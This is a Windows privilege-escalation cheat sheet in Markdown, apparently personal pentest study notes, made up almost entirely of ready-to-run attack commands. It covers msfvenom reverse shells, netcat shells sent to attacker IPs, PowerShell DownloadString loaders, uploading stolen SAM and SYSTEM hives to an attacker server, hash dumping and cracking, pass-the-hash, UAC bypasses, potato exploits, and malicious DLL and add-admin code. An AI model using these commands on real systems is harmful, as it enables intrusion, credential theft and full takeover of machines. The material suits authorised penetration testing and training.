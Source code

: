 # Privilege Escalation (Windows)

<details>

<summary>Automated Tools</summary>

* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)

If unable to run scripts/executables on target, use Windows Exploit Suggester on attacker's machine

### Windows Exploit Suggester

On Victim: `systeminfo`

On Attacker:&#x20;

```bash
python2.7 windows-exploit-suggester.py --update
```

```bash
python2.7 windows-exploit-suggester.py -i systeminfo -d 2023-03-10-mssb.xls
```

### PowerUp.ps1

```bash
powershell -ep bypass -c "Import-Module .\powerup.ps1; Invoke-AllChecks"
```

```bash
powershell -ep bypass
Import-Module .\powerup.ps1
. .\powerup.ps1
Invoke-AllChecks
```

### Windows Privesc Check

<pre><code><strong>windows-privesc-check --dump -G
</strong></code></pre>

</details>

### Enumeration

<details>

<summary>Basic System Info</summary>

* To find the username the shell is running as

```bash
whoami
```

* Checks privileges

```bash
whoami /priv
```

* To find the OS, version and architecture

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

* List system-wide updates

```shell
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

* Powershell command to enumerate the loaded device drivers and kernel modules

```shell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```

* Request the version of each of the loaded driver

```shell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

</details>

<details>

<summary>Users &#x26; Groups</summary>

* To find the user and groups that a user belongs

```shell
net user <username>
```

* To find other accounts

```shell
net user
```

* Check who's in the local administrator group

```bash
net localgroup administrators
```

* Check what groups the user is in

```bash
whoami /groups
```

</details>

<details>

<summary>Registry</summary>

```bash
reg query HKLM /f password /t REG_SZ /s
```

* Find admin AutoLogon credentials

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

* Check if Always Install Elevated is enabled

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

</details>

<details>

<summary>Network </summary>

* Show network interfaces

```shell
ipconfig /all
```

* Show the routing table

```shell
route print
```

* Show active listening network connections

```shell
# To obtain the PID, listening ports
netstat -an | findstr LISTEN

# To determine which service is running on a particular port
tasklist /v | findstr <PID>
powershell -c Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
```

Are there any internal services? (Local address that's not 0.0.0.0)

* Show the firewall profile&#x20;
  * is it active?

```shell
netsh advfirewall show currentprofile
```

#### Show all firewall rules

* New:

```bash
netsh advfirewall firewall dump
```

* Old:

```shell
netsh advfirewall firewall show rule name=all
```

```bash
netsh firewall show state
```

```bash
netsh firewall show config
```

* Obtain different drives' names

```bash
wmic logicaldisk get caption
```

* List all drives that are currently mounted and those physically connected but not mounted

```shell
mountvol
```

</details>

<details>

<summary>Services </summary>

* View scheduled tasks

```shell
schtasks /query /fo LIST /v
```

* Lists applications that are installed by Windows Installer

```shell
wmic product get name, version, vendor
```

* To find the services

```bash
sc queryex type= service
```

* Running services

```shell
tasklist /SVC
```

</details>

<details>

<summary>Local Administrator Password Solution (LAPS)</summary>

* Secure and scalable way of remotely managing the local administrator password for domain-joined computers
  * ms-mcs-AdmPwd
    * Contains the clear text password of the local administrator account

## Check if LAPS is installed Locally

```powershell
# Identify if LAPS installed to Program Files
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'

# Enumerate domain computers using LAPS via PowerView
Get-DomainComputer -Domain domain.com -LDAPFilter '(ms-Mcs-AdmPwdExpirationtime=*)'

# Identify which groups can view LAPS passwords
Get-DomainOU -Domain domain.com | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```

## Exploitation

```powershell
# PowerView
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/PowerView.ps1')
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}

# OR LAPSToolKit
# git clone https://github.com/leoloobeek/LAPSToolkit.git
iex (New-Object Net.Webclient).DownloadString("http://IP/LAPSToolkit.ps1")
# Show LAPS enabled computers && cleartext password if any
Get-LAPSComputers
# Get the groupname that can view LAPS passwords
Find-LAPSDelegatedGroups
# Find the accounts that can view LAPS passwords
Get-NetGroupMember -GroupName "XXX"
```

</details>

<details>

<summary>Files &#x26; Directories </summary>

Use `dir /a` to see hidden files (eg: `.git` files)

* Look at PowerShell history file

```sh
PS C:> cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine

# $env:APPDATA --> C:\Users\sql_svc\AppData\Roaming
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```bash
powershell -c dir $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
powershell -c type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Search for any file or directory that allows the Everyone group write permissions

```shell
accesschk.exe -uws "Everyone" "C:\Program Files"
```

* AccessChk from SysInternals

- Powershell cmd to find files that can be modified by everyone

```shell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

</details>

<details>

<summary>Paths</summary>

### User PATH

```bash
%PATH%
FOR /F "tokens=1,3* skip=2" %G IN ('reg query HKCU\Environment') DO @echo %G=%H %I
```

### Global PATH

```bash
 FOR /F "tokens=1,3* skip=2" %G IN ('reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"') DO @echo %G=%H %I
```

</details>

<details>

<summary>Password Hunting</summary>

* Searching for the string `password` in files recursively from a directory
  * `s` = recursive
  * `p` = skip non-printable characters
  * `i` = case insensitive
  * `n` = print line numbers

```bash
findstr /spin /c:"password" *.*
```

```bash
findstr /si password *.xml *.ini *.txt
```

* Windows Autologin

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

* Powershell history file

```powershell
# In Powershell
cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\

# In Cmd
C:\Users\YourUserName\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

* VNC

```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

* SNMP

```bash
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

* Putty

```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

* Registry

```bash
reg query HKLM /f password /t REG_SZ /s
```

```bash
findstr /si password *.txt *.ini *.config
```

</details>

<details>

<summary>Email Hunting</summary>

```bash
dir *.dbx /s
```

</details>

<details>

<summary>Presence of WSL</summary>

```bash
where /R c:\windows bash.exe
```

```bash
where /R c:\windows wsl.exe
```

</details>

<details>

<summary>Default files in Windows</summary>

* OS Determination

```bash
\windows\system32\license.rtf
```

```bash
\windows\system32\eula.txt
```

</details>

### Common Methods

<details>

<summary>Kernel</summary>

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

### SMBGhost&#x20;

```bash
# CVE-2020-0796
# https://github.com/danigargu/CVE-2020-0796

# Compile it with Visual Studio. Change payload in exploit.cpp line 204 and add msfvenom payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.60 LPORT=8081 -f dll -f csharp

# Compile it. Change 'debug' to 'release', set correct architecture. 
# Transfer to target

.\cve-2020-0796-local.exe 
```

### MS16-032

<pre class="language-bash"><code class="lang-bash"># https://github.com/egre55/windows-kernel-exploits/blob/master/MS16-032:%20Secondary%20Logon%20Handle/Invoke-MS16-032-Remote-Shell.ps1#L10
<strong>
</strong><strong>msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o reverse.exe
</strong>
#Edit inside Invoke-MS16-032-Remote-Shell.ps1
Remove all the "/c C:\Users\Public\Music\nc.exe host port -e cmd.exe"
Edit all the "C:\Windows\System32\cmd.exe" to "c:\HFS\reverse.exe"

# Must use the following 64bit Powershell exe
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -ep bypass .\Invoke-MS16-032-Remote-Shell.ps1
</code></pre>

</details>

<details>

<summary>Tater (Hot Potato)</summary>

[https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

Affects the various windows versions

* Windows 7
* Windows 8
* Windows 10
* Windows Server 2008
* Windows Server 2012

Transfer `tater.ps1` over to victim

```bash
. .\tater.ps1
```

```bash
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

</details>

<details>

<summary>Show Currently Stored Creds</summary>

```bash
cmdkey /list
```

```
## Output
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

```bash
runas /savecred /user:ACCESS\Administrator reverse.exe
```

</details>

<details>

<summary>Autoruns</summary>

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```shell
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Have to wait for an administrator to login

</details>

<details>

<summary>Unquoted Service Path</summary>

Eg: Consider the string "c:\program files\sub dir\program name". The system tries to interpret the possibilities in the following order:&#x20;

* _**c:\program.exe, c:\program files\sub.exe, c:\program files\sub dir\program.exe, c:\program files\sub dir\program name.exe**_

```sh
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" 
```

```shell
sc qc <service_name>
```

If `START_TYPE : 2 AUTO_START` , then put in the malicious file and `shutdown /r /t 0` to restart the computer (hence, restarting the service).

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

```shell
net start unquotedsvc
```

c:\program.exe&#x20;

c:\program files\sub.exe&#x20;

c:\program files\sub dir\program.exe

c:\program files\sub dir\program name.exe

</details>

<details>

<summary>Binary Hijacking (Service)</summary>

```bash
# Generate Reverse Shell Executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.222 LPORT=80 -f exe -o reverse.exe

# Stop the service first to replace binary, otherwise access is denied.
net stop kiteservice

# Overwrite the service executable with malicious rev shell exe
move reverse.exe KiteService.exe

# Restarts the service
net start kiteservice

# Netcat Listener
┌──(root㉿kali)-[/prac_oscp/192.168.191.151]
└─# nc -lvp 80                                         
listening on [any] 80 ...
192.168.218.151: inverse host lookup failed: Unknown host
connect to [192.168.45.222] from (UNKNOWN) [192.168.218.151] 49999
Microsoft Windows [Version 10.0.19043.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

</details>

<details>

<summary>AlwaysInstallElevated</summary>

### Check the following registry keys:

Both keys are set to 1

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Manual Method 1 (Simple)

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### OR METHOD 2: [Custom MSI (Complex)](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/AlwaysInstallElevated.md#manual-exploitation)

Open an existing random project in Visual Studio 2022-> go to Extensions tab -> Manage extensions

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Install "Microsoft Visual Studio Installer Projects 2022" --> Restart VS to complete the installation

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Create a adduser.c file

```c
int main ()
{
	int i;
	i = system ("net user bill P@ssw0rd123! /add");
	i = system("net localgroup administrators user /add");
	return 0;
}
```

Compile it&#x20;

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Right click "always\_install\_elevated\_add\_bill" --> Properties

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Change TargetPlatform to x64

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Right click "always\_install\_elevated\_add\_bill" --> View --> Custom Actions

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Right-click "Custom Actions" --> Add Custom Action

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Double-click into "Application Folder"

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Select "adduser.exe" --> OK

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Change Run64Bit option in Properties Window to True:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Change build to release && build it with Cltrl-shift-b

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

```powershell
curl.exe http://192.168.45.218/always_install_elevated_add_bill.msi -o always_install_elevated_add_bill.msi
msiexec /quiet /qn /i always_install_elevated_add_bill.msi
```

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### OR USING METASPLOIT

```powershell
use exploit/windows/local/always_install_elevated
set payload windows/x64/meterpreter/reverse_tcp
set session 1
set LHOST tun0
run
```

</details>

<details>

<summary>Scheduled Tasks</summary>

```bash
type C:\DevTools\CleanUp.ps1
```

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

</details>

<details>

<summary>Dumping Local NTLM Hashes</summary>

* Need to extract out SYSTEM and SAM registry hives but they are locked by SYSTEM process --> unable to read/copy the files
* Create a volume snapshot
  * ```
    wmic shadowcopy call create Volume='C:'
    ```
  * ```
    vssadmin list shadows
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
     C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
     C:\users\offsec.corp1\Downloads\system
    ```
* Using reg save
  * ```
    reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    reg save HKLM\system C:\users\offsec.corp1\Downloads\system
    ```
* Decrypt the SYSTEM & SAM files
  * creddump
    *   ```
        git clone https://github.com/Tib3rius/creddump7
        cd creddump7
        python3 -m venv venv
        pip3 uninstall crypto 
        pip3 uninstall pycrypto 
        install pycryptodome
        python3 pwdump.py ../system1 ../sam1 
        ```



</details>

<details>

<summary>Security Account Manger (SAM) Dump</summary>

* Located in `c:\windows\system32\config`
* Extract out the passwords, hashes

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

Transfer the SAM and SYSTEM files to kali thru SMB

```shell
copy C:\Windows\Repair\SAM \\10.11.67.208\kali\
```

```shell
copy C:\Windows\Repair\SYSTEM \\10.11.67.208\kali\
```

On Kali:

```shell
git clone https://github.com/Tib3rius/creddump7;pip3 install pycryptodome
```

On Kali:

```python
python3 creddump7/pwdump.py SYSTEM SAM
```

`admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::` –> First hash is LM hash followed by NTLM hash!

On Kali:

```bash
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Ntds.dit &#x26; SYSTEM Dump</summary>

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

</details>

<details>

<summary>Passing the Hash</summary>

* Pass in the full admin hash (includes both LM and NTLM hash, separated by colon)

```bash
pth-winexe -U 'admin%hash' //10.10.202.204 cmd.exe
```

</details>

<details>

<summary>User In Local Group with Admin Privileges (UAC Bypass)</summary>

### EventViewer-UACBypass

[https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass)

* Generate reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 EXITFUNC=thread -f exe -o reverse.exe
```

* Abuse SeImpersonate privileges to obtain&#x20;
* Run `Invoke-EventViewer`

```bash
Import-Module .\Invoke-EventViewer.ps1
Invoke-EventViewer c:\temp\reverse.exe
```

OR using [FodhelperBypass.ps1](https://raw.githubusercontent.com/winscripting/UAC-bypass/refs/heads/master/FodhelperBypass.ps1)

```powershell
# Load FodHelper in memory
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Using ps_shellcode_runner
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

</details>

<details>

<summary>Running Administrator account from normal user account</summary>

```bash
runas /env /profile /user:Administrator "c:\temp\nc.exe -e cmd.exe 192.168.45.5 443"
```

</details>

### Token Impersonation Attacks

<details>

<summary>SigmaPotato (Windows 2012 - Windows 2022)<br>Abuse seImpersonate privileges to obtain NT AUTHORITY\SYSTEM </summary>

```bash
.\sigmapotato.exe --revshell 192.168.45.218 4444
```

[https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)

</details>

<details>

<summary>PrintSpoofer (Windows 10, Server 2016/2019)</summary>

Works on all versions of Server 2016 and Server 2019, as well as every version of Windows 10 from at least 1607 onwards.

![](<../.gitbook/assets/image (147).png>)

![](<../.gitbook/assets/image (125).png>)

* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

- From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege

* This step is purely to simulate getting a service account shell

```bash
.\printspoofer64.exe -c "nc64.exe -e cmd.exe 192.168.45.213 53"
```

```bash
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

</details>

<details>

<summary>Juicy Potato</summary>

Does not work on Win10 version >= 1809, Server2019. Check Win10 versions [here](https://juggernaut-sec.com/wp-content/uploads/2022/05/image-218.png).

![](<../.gitbook/assets/image (137).png>)

* [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

- `SeImpersonatePrivilege` is enabled —> vuln to JuicyPotato PrivEsc
- Transfer nc.exe `copy \\10.10.14.6\share\nc32.exe .`

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

* If obtained the following error —> might be due to wrong CLSID
  * Find CLSID. For win server 2012 —> {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
  * [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
    * Find the BITS CLSIDs and test those first
  * Add as `-c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}`
    * `-c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

```bash
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
COM -> recv failed with error: 10038
```

* If obtained the following error —> might be windefender detecting and deleting the exploit.

```bash
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 2

[-] CreateProcessAsUser Failed to create proc: 2
```

</details>

<details>

<summary>Incognito</summary>

* Manual way: [https://github.com/milkdevil/incognito2/blob/master/incognito.exe](https://github.com/milkdevil/incognito2/blob/master/incognito.exe)
  * ```
    incognito.exe list_tokens -u
    msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=80 -f exe -o reverse_80.exe
    incognito.exe execute -c "sandbox\Administrator" reverse_80.exe
    ```

- Metasploit's method:
  * ```
    load incognito
    list_tokens -u      (Delegation tokens allow full authentication, while Impersonation tokens allow acting as another user.)
    impersonate_token corp1\\admin
    getuid
    ```



</details>

<details>

<summary>Rogue Potato</summary>

Works on versions of Windows after the changes took place (1809+)

Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege

* [Rogue Potato ](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0)

- Setting up a spoofed OXID resolver
  * Forwards Kali port 135 to port 9999 on Windows.

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<victim's IP>:9999
```

```bash
.\RoguePotato.exe -r 172.16.1.30 -e "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -l 9999
```

* `-c "{6d18ad12-bde3-4393-b311-099c346e6df9}"`

</details>

### Less Common Methods

<details>

<summary>Insecure Service Permissions (Modifiable Service)</summary>

* Checks the “user” account’s permissions on the ”daclsvc” service

- “user” account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG)

```shell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

```shell
sc qc daclsvc
```

```shell
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

```shell
net start daclsvc
```

OR USING POWERSHELL...

```powershell
cmd /c sc qc <service_name>
```

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

Start Type --> Change to autostart

```powershell
cmd /c sc config <service_name> start=auto
```

Add final.com\nina to local administrators group: --> DO NOTE THAT LocalService doesn't have enough rights to add users

```powershell
cmd /c sc config <service_name> binpath= "net localgroup Administrators final.com\nina /add" obj= "NT AUTHORITY\SYSTEM"
```

Ensure that changes are updated & run it

```
cmd /c sc qc <service_name>
net start <service_name>
```

"The service is not responding to the control function." is normal.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>DLL Hijacking</summary>

* Find the DLLs that have `NAME NOT FOUND` and is in writable directories.
  * eg `c:\temp\hijackme.dll`

```bash
 // For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o        output.dll
 // For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.  dll
 
 #include <windows.h>
 
 BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
     if (dwReason == DLL_PROCESS_ATTACH) {
         system("cmd.exe /k net localgroup administrators user /add");
         ExitProcess(0);
     }
     return TRUE;
 }
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

* Transfer `output.dll` to `c:\temp\hijackme.dll`
* Restart the `dllsvc` service
  * `sc stop dllsvc`
  * `sc start dllsvc`

## OR..

In CLIENT01 process monitor:

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png>)

* Create malicious msasn1.dll & save to C:\Program Files\FileZilla Server --> Rev shell
  * ```powershell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o msasn1.dll
    ```
  * ```powershell
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
    ```
    *

        <figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  * Start Filezilla server
* ```powershell
  Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
  copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
  ```

</details>

<details>

<summary>Weak Registry Permissions</summary>

* To find weak registry perm, use the following command
  * Will show `NT AUTHORITY\INTERACTIVE Allow FullControl`

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* Using command prompt,

```bash
sc qc regsvc
```

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Registry entry for regsvc service is writable by NT AUTHORITY\INTERACTIVE group (essentially all logged-on users)

```basic
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Overwrite the ImagePath registry key to point to the reverse.exe executable

```bash
net start regsvc
```

</details>

<details>

<summary> Insecure service Executables</summary>

<pre class="language-shell"><code class="lang-shell"><strong>sc qc filepermsvc
</strong></code></pre>

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```shell
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Service binary (BINARY\_PATH\_NAME) file is writable by everyone)

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```shell
net start filepermsvc
```

</details>

<details>

<summary>Insecure GUI Apps</summary>

Login to user account

```bash
rdesktop -u user -p password321 10.10.201.218
```

Double-click `AdminPaint` shortcut on Desktop

```bash
tasklist /V | findstr mspaint.exe
```

Paint is running with admin privileges

In Paint, `File` –> `Open`. `file://c:/windows/system32/cmd.exe`

</details>

<details>

<summary>Startup Apps</summary>

* To search for writable startup apps folder
  * he `BUILTIN\Users`group has full access ‘(F)’ to the directory

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

* Generate reverse shell:&#x20;

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.20.202 LPORT=443 -f exe > reverse.exe
```

* Put `reverse.exe` into startup folder

```bash
copy reverse.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.exe"
```

* Wait for administrator to login

</details>

<details>

<summary>SeRestorePrivilege</summary>

```bash
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
mv C:\Windows\System32\cmd.exe c:\Windows\System32\utilman.exe
```

On Kali:

```bash
rdesktop 192.168.204.165
```

Win Key + U --> Spawned NT Authority\System shell

</details>

<details>

<summary>SeBackupPrivilege</summary>

On Victim:

```bash
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Transfer files to attacker:

```bash
# On Attacker:
wget https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
powershell -c curl.exe -F 'file=@c:\\temp\\system' http://192.168.45.162
powershell -c curl.exe -F 'file=@c:\\temp\\sam' http://192.168.45.162
```

Dump out the hashes

```bash
git clone https://github.com/Tib3rius/creddump7
python3 creddump7/pwdump.py system sam
```

</details>

<details>

<summary>WerTrigger</summary>

For Example, MySQL Service has File Write permission as SYSTEM

Checking to see if MySQL Service has File Write perm as SYSTEM:

<pre class="language-sql"><code class="lang-sql">MariaDB [(none)]> select load_file('C:\\temp\\chiselx64.exe') into dumpfile 'C:\\temp\\try.exe';
<strong>
</strong><strong>#Have File Write permission as SYSTEM through mysql.
</strong>c:\temp>icacls try.exe
try.exe NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
</code></pre>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger)

[https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

```sql
c:\temp>certutil -urlcache -f http://192.168.45.5/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

